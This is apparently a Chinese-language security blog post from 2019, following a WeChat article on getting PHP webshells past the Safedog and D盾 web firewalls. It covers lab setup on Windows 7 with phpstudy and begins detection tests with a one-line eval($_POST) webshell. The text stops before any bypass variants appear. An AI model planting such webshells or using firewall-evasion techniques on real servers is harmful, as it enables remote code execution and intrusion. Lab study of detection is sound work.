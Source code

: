 ```yaml
---
title: "webshell_bypass安全狗、D盾"
categories: [ "安全技术" ]
tags: [ "webshell","bypass" ]
draft: false
slug: "15"
date: "2019-01-20 10:43:00"
---
```


#### 前言

不知道咋地啦，最近 Freebuf 和合天智汇都在发绕过 waf 的文章，一般来说都是见光死，而且只敢偶尔发一篇

但是最近连续几天都是 bypass 的文章，那就记录一下

**原文来源：** https://mp.weixin.qq.com/s/aAK2pLf3XX8AKz2-UoQbYQ

这篇文章就是将原文做一遍，侵删

#### 环境配置及 webshell 了解

- Virtualbox+Win7 SP1
- phpstudy2018 最近都没更新：http://down.php.cn/PhpStudy20180211.zip
- 安全狗，使用的是 Apache 版 V4.0：http://free.safedog.cn/website_safedog.html

![][1]

- D 盾，使用的是 Web 查杀版：http://www.d99net.net/

![][2]

关于给 Windows 中的 phpstudy 配置安全狗**这里有坑**，在安装安全狗的时候会跳出来一个配置界面：

![][3]

请自动忽略里面的红字，Win7 的话，先把 phpstudy 设置为服务模式，服务中出现 apache 服务后，停止 phpstudy，然后手动启动 apache 服务后安全狗就可以安装了

针对 win10 的话，你将 phpstudy 设置为系统服务模式的话，在 services.msc 中也是看不到 apache 的服务的，需要自己手动安装(cmd)：

- cd C:\phpStudy\PHPTutorial\Apache\bin
- httpd.exe -k install -n apache2.4

然后启动 apache2.4 服务，安全狗就能识别了

在 bypass 开始之前我们先了解一下 webshell 的组成：

![][4]

webshell 再怎么变化，都需要满足图中的两个条件，那么绕过 waf 就是通过变化这两个条件来实现的

我们先测试下 waf 的检测机制，我们准备以下三个文件：

php_1.php：`<?php eval($_POST['a']);?>`
php_2.php：

```
<?php
$a = "phpinfo();";
eval($a);?>
```


[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png